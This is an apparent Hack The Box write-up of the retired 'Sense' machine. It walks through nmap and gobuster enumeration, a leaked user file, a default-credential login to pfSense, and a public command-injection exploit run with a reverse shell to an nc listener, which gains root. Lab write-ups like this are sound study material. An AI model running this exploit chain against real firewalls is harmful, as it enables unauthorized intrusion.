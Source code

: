 ```yaml
---
layout: post
title: "Sense"
categories: HTB-Walkthrough
---
```


![sense](/assets/img/sense.png)

Sense is another straightforward retired HTB box. Its OSCP-like in that enumeration reveals a known vulnerability, and public exploit that enables us to compromise it.

Nmap scans first then...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.60 |tee -a sense.txt`

```

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Host is up (0.11s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

```

Port 80 redirects us to the https port (443).

Gobuster is a great directory-brute forcer (like dirb and dirbuster) which is fast and easy to use.

when using it against https its often easiest to use the `-k` flag to avoid ssl/tls problems which could make the enumeration fail.

`gobuster -u https://10.10.10.60/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -x .sh,.php,.asp -k`
Starting with a common.txt file to use with it, if nothing is found we could progress to something more comprehensive, but would take longer.
You can also speed things up with increasing the threads that gobuster uses, 50 for example...with a `-t 50` flag...but I didnt in this instance.

```

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /root/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,asp,sh
[+] Timeout      : 10s
=====================================================
2019/11/12 12:06:05 Starting gobuster
=====================================================
/classes (Status: 301)
/css (Status: 301)
/edit.php (Status: 200)
/exec.php (Status: 200)
/favicon.ico (Status: 200)
/graph.php (Status: 200)
/help.php (Status: 200)
/includes (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/index.php (Status: 200)
/installer (Status: 301)
/javascript (Status: 301)
/license.php (Status: 200)
/pkg.php (Status: 200)
/stats.php (Status: 200)
/status.php (Status: 200)
/system.php (Status: 200)
/themes (Status: 301)
/tree (Status: 301)
/widgets (Status: 301)
/xmlrpc.php (Status: 200)
/xmlrpc.php (Status: 200)
=====================================================
2019/11/12 12:09:26 Finished
=====================================================

```

Gobuster gives us a bunch of goodies to investigate, but nothing seems to give us any real progress;
We can see that the server is using 'pfsense', but we cant login with any of the normal admin/admin creds or other weak variants.
Searching online for default creds we find some (admin/pfsense), but they don't work.

Perhaps we're missing something, we tried gobuster with a limited common list initially, so we'll try again with a better directory list.
Dirbuster comes with a very reliable set of files to use, but I prefer to use them with gobuster.

`gobuster -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt -k -t 50`

This takes a lot longer, and does return something more interesting
`/system-users.txt`

browsing to the page we find a snippet of information which shouldn't be publicly accessible...


```

####Support ticket###

Please create the following user


username: Rohit
password: company defaults

```

We try to login again with username:rohit and password:pfsense, and sucessfully gain access to the pfsense dashboard.


We can search online, google, or the exploitdb website for known exploits, or just use searchsploit from the kali terminal...

```

root@kali:~/HTB/prep/sense# searchsploit pfsense 2.1.
------------------------------------------ ----------------------------------------
 Exploit Title                            |  Path
                                          | (/usr/share/exploitdb/)
------------------------------------------ ----------------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.p | exploits/php/webapps/43560.py
------------------------------------------ ----------------------------------------
Shellcodes: No Result

```

Copy the exploit, read it carefully to find out how to use it, and what it does....then give it a try...

Dont forget to set an nc listener ready to catch the reverse shell...

```

root@kali:~/HTB/prep/sense# python3 pfsense.py --rhost 10.10.10.60 --lhost 10.10.14.34 --lport 6969 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed

```

The exploit works a treat, and gives us a lovely shell...

```

root@kali:~/HTB/prep/sense# nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.60] 2334
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
dxxxxxxxxxxxxxxxxxxxxxxxxxxxx6
# ls /home
.snap
rohit
# cat /home/rohit/user.txt
8xxxxxxxxxxxxxxxxxxxxxxxxxxxxb 
# hostname
pfSense.localdomain
# whoami
root
# 

```
Flags are obfuscated because SPOILERS....(he says giving you a step-by-step !!!)

